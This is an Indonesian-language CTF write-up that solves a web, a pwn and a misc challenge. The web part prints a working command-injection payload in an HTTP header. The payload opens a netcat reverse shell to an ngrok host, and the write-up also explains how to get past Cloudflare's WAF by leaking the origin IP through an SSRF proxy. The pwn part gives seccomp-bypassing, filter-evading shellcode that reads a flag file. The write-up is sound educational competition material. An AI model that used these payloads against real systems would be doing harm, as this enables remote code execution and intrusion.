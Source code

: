 # web
---
## cloudwhere

pada soal diberikan alamat website dan source code soal https://cloudwhere.lol/
bisa dilihat pada ./src/utils.ts pada bagian:
```node
...snip...
    console.log('requesting_whois', ip)

    try {
        const response = await execAsync(`whois ${ip} | grep -i country | head -n1`)

        console.log(response)
        const country = response.stdout.split(':')[1].trim()
...snip...
```


bahwa disitu ada command injection pada variable response,
variable ip diatas mengambil data ip dari ./src/middleware.ts 

```node
...snip...
export function checkIpHeader(request: Request, h: ResponseToolkit) {
    request.app.realIp = request.headers['cf-connecting-ip'] || request.info.remoteAddress

    return h.continue
}
...snip...
```

dimana dia mengambil http header cf-connecting-ip sebagai inputnya,
sekarang mari kita inject shellcode dibawah ini ke header cf-connecting-ip:

```sh
cf-connecting-ip: 8.8.8.8; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|ls / 2>&1|nc 6.tcp.ngrok.io 12364 >/tmp/f#
```

![](Pasted%20image%2020221211192759.png)

Tetapi dikarenakan terdapatknya waf dari cloudflare, kita tidak dapat meninjeksi shellcode tersebut. Sehingga kita perlu dapat cara untuk membypass cloudflare tersebut.

Setelah beberapa lama seluncur di internet, saya menemukan vidio ini https://www.youtube.com/watch?v=jfjzYpgte-A

Dimana di vidio itu memberi tahu kita bahwa kita dapat membypass cloudflare dengan cara menemukan ip original dari server korban.

Di ./src/handler.ts terdapat fungsi sebagai berikut:

```node
// Protect the users privacy by proxying 3rd-party requests through our own backend
export async function proxyRequest(request: Request, h: ResponseToolkit): Promise<ResponseObject> {
    const url: string = base64decode(request.params.endpoint)

    console.log('proxy_request', url)

    if (!url.startsWith('https://')) {
        return h.response('invalid url')
            .code(401);
    }

    const resp = await fetch(url)

    return h.response(new Buffer(await resp.arrayBuffer()))
        .type(resp.headers.get('content-type') || 'text/plain')
}
```

dimana fungsi proxyRequests akan mengfetch https request dari server apapun!

Fungsi ini dapat kita akses lewat endpoint /proxy/

Jadi rencananya kita akan membuat requestbin, dan membuat request dari website korban ke requestbin kita untuk me leak ip asli dari server korban. 

![](Pasted%20image%2020221211192912.png)

![](Pasted%20image%2020221211192926.png)

dari ip yang kita dapat diatas, kita dapat mengakses ip asli si korban dan membuat shellcode seperti sebelumnya, dan mendapatkan flag nya tanpa perlu khawatir dengan waf cloudflare. 

![](Pasted%20image%2020221211192941.png)

![](Pasted%20image%2020221211192953.png)

yay kita mendapatkan RCE

# pwn
---
## movsh

Pada challenge ini kita di berikan beberapa restriction, yang pertama adalah seccomp:

```c
void init_syscall_filter() {
    // allow only four syscalls: open, read, write and exit
    // the process is killed on execution of any other syscall
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_load(ctx);
}
```

kita hanya bisa menggunakan beberapa syscall, yaitu open, read, write, dan exit.

dari bagian servernya sendiri kita juga diberikan restriction:

```python
def verify_shellcode(shellcode):
    # bypassing this filter is not intended
    # however if you come up with a bypass feel free to use it
    syscall_count = 0
    for i in md.disasm(shellcode, 0x0):
        if i.mnemonic != "mov" and i.mnemonic != "syscall":
            print("Invalid instruction: ")
            print(f"{hex(i.address)}:\t{i.mnemonic}\t{i.op_str}")
            exit(0)
        elif i.mnemonic == "syscall":
            if syscall_count < 2:
                syscall_count += 1
            else:
                print(f"Syscall limit reached @ {hex(i.address)}")
                exit(0)
        else:
            pass
```

dimana kita hanya bisa menggunakan mov dan syscall. syscall hanya boleh ada 2 dalam pyload kita.

```python
def main():
    signal.signal(signal.SIGALRM, handler)
    signal.alarm(60)
    print(f"Please provide the shellcode in hex format ({MAX_SHELLCODE_LEN} bytes at most)")
    shellcode_hex = input("> ")[:MAX_SHELLCODE_LEN].strip().encode().lower()
    
    try:
        shellcode_hex = bytes(list(filter(lambda c: chr(c) in "0123456789abcdef", shellcode_hex)))
        shellcode = bytes.fromhex(shellcode_hex.decode())
        verify_shellcode(shellcode)

        # exit properly
        shellcode += b"\xb8\x3c\x00\x00\x00\x0f\x05"  # mov eax, 0x3c; syscall;
        execute(shellcode)
    except:
        print("Invalid input")
```

namun pada variable shellcode, shellcode yang akan kita masukkan ditambahkan dengan mov eax, 0x3c; syscall;

![](Pasted%20image%2020221211193146.png)

pada percakapan di discord kitctfctf di atas, kita mengetahui bahwa kita bisa merubah mov  eax, 0x3c menjadi nop; dengan cara menambahkan binary 0x0f, 0x1f ke dalam akhir payload.

payload akhir

```asm
    /* push b'flag.txt\x00' */
    mov dword ptr [rsp], 0x67616c66
    mov dword ptr [rsp+4], 0x7478742e
    mov byte ptr [rsp+8], 0
    /* call open('rsp', 'O_RDONLY', 0x64) */
    mov al, SYS_open /* 2 */
    mov rdi, rsp
    mov edx, 0x64
    mov esi, 0 /* O_RDONLY */
    syscall
    /* call read('rax', 'rsp', 'rdx') */
    mov edi, eax
    mov al, SYS_read
    mov rsi, rsp
    syscall
    /* call write(0, 'rsp', 'rax') */
    mov edx, eax
    mov al, SYS_write /* 1 */
    mov edi, 0
    mov rsi, rsp
    .byte 0x0f, 0x1f

    /* exit syscall from the server mov eax, 0x3c; syscall; */
    // .byte 0xb8,0x3c,0x00,0x00,0x00,0x0f,0x05
```

kita rubah menjadi hex, kirim ke server dan kita mendapatkan flag di local! 

![](Pasted%20image%2020221211193234.png)

# misc
---
## ein-pfund-mails

Di challenge ini kita diberikan banyak sekali file, dan dari file-file ini kita harus mendapatkan satu file email yang benar. Disini kita bisa memverify email yang valid dengan memeriksa signature dkimnya. Berikut solver yang saya gunakan:

```python
import glob
from io import BufferedReader
import dkim
import threading

file_list = glob.glob('./mails/*.eml')
count = 0
num_file = len(file_list)

def verify(fp: BufferedReader):
    mail = fp.read()
    isTrue = dkim.verify(mail)
    if isTrue:
        print(mail)
    

for file in file_list:
    with open(file, 'rb') as fp:
        new_thread = threading.Thread(target=verify, args=[fp])
        new_thread.start()
        if threading.active_count()%20 == 0:
            for i in threading.enumerate():
                if i != threading.main_thread():
                    i.join()
        count += 1
        print(f"{count}/{num_file}", end="\r")
```

